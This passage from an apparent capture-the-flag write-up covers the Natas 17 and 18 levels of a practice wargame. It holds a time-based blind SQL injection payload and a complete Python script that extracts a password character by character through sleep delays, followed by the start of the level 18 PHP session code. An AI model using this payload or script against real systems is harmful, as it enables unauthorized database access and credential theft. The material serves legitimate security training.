 So we turn our SQL string into the following.

{% highlight sql %}
natas18" and users.password COLLATE latin1_bin like "a%" and sleep(10) and "x"="x
{% endhighlight %}

Now all that is left is to modify our script to handle time based attacks. We use pythons built in timers to measure the time between POST.

{% highlight python %}
#blind.py
import time
import requests
from requests.auth import HTTPBasicAuth
letters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
solution = ""
for x in range(33):
    for c in letters:
        payload = {'username': 'natas18" and users.password COLLATE latin1_bin like "'+solution+c+'%'+'"and sleep(10) and "x"="x'}
        start = time.time()
        r = requests.post("http://natas17.natas.labs.overthewire.org/", data=payload, auth=HTTPBasicAuth('natas17', 'natas17pass'))
        end = time.time()
        if int(end-start) >= 4:
            solution = solution + c
            print "Solution: " + solution
            break
print "Final: "+solution
{% endhighlight %}

One thing to consider is that if for whatever reason we are unable to get the post result fast enough or we timeout the code will count it as a correct letter.

After running the script we get our password.

### Natas 18
- - - - - - -

Natas 18 presents us with a new login screen. When we enter random information we are given the fact that we are logged in as a normal user. So we head to the source.

{% highlight php %}
-- SNIP --
<? 
$maxid = 640; // 640 should be enough for everyone 
function isValidAdminLogin() { 
    if($_REQUEST["username"] == "admin") { 
    /* This method of authentication appears to be unsafe and has been disabled for now. */ 
        //return 1; 
    } 

    return 0; 
} 
-- SNIP --
-- SNIP --
$showform = true; 
if(my_session_start()) { 
    print_credentials(); 
    $showform = false; 
} else { 
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) { 
    session_id(createID($_REQUEST["username"])); 
    session_start(); 
    $_SESSION["admin"] = isValidAdminLogin(); 
    debug("New session started"); 
    $showform = false; 